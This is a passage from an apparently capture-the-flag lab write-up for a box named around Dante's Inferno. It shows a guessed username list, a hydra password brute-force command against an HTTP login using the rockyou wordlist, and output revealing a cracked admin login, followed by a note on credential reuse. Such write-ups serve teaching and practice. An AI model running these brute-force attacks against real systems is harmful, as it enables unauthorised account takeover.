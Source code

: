 ### BURPSUITE

Proved fruitless.

### Gaining `/inferno` creds

I made a `users.txt` list (just guessed them):
```
admin
dante
inferno
user
alligieri
```
then use `hydra`:
```bash
$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $IP http-get /inferno/ -t 60 -I 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-25 03:26:00
[DATA] max 20 tasks per 1 server, overall 20 tasks, 71721995 login tries (l:5/p:14344399), ~3586100 tries per task
[DATA] attacking http-get://10.10.44.236:80/inferno/
[80][http-get] host: 10.10.44.236   login: admin   password: ******
```
Awesome, now lets go to `/inferno/` there fill in the popup, and whats this?</br>
![login](login.png)</br>
Another login page, lets try for creds reusage. And shebam!</br> 